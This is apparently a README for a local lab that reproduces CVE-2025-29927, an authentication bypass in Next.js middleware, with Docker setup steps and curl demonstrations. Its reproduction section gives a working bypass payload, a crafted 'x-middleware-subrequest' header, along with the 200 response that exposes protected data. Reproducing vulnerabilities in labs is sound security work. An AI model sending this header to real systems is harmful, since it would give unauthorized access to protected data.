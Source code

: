 # Next.js Middleware Authorization Bypass Vulnerability (CVE-2025-29927) 

Next.js is a web application framework based on React. It provides features like server-side rendering, static site generation, routing system, and API routes. When Next.js is configured to use middleware for authentication, attackers can exploit a vulnerability to bypass authentication.

## Starting the Environment

Execute the following command, then visit `http://ip:3000`:

```
docker compose up --build
```

### Manual Setup

Run the following command:

```bash
npm install
```

Start the application:

```bash
npm run build
npm start
```

Visit http://ip:3000

## Reproducing the Vulnerability

Directly accessing the protected API:
```
curl -i http://localhost:3000/api/protected/data
HTTP/1.1 307 Temporary Redirect
location: /unauthorized
Date: Sat, 22 Mar 2025 19:39:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

/unauthorized#
```

Run the following command to reproduce the vulnerability:
```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/protected/data
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "8s59pt2il13l"
Content-Length: 175
Vary: Accept-Encoding
Date: Sat, 22 Mar 2025 19:41:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Successfully retrieved sensitive data","sensitiveData":"This is some sensitive data that should be protected","userId":12345,"adminAccess":true,"timestamp":"2025-03-22T19:41:09.957Z"}

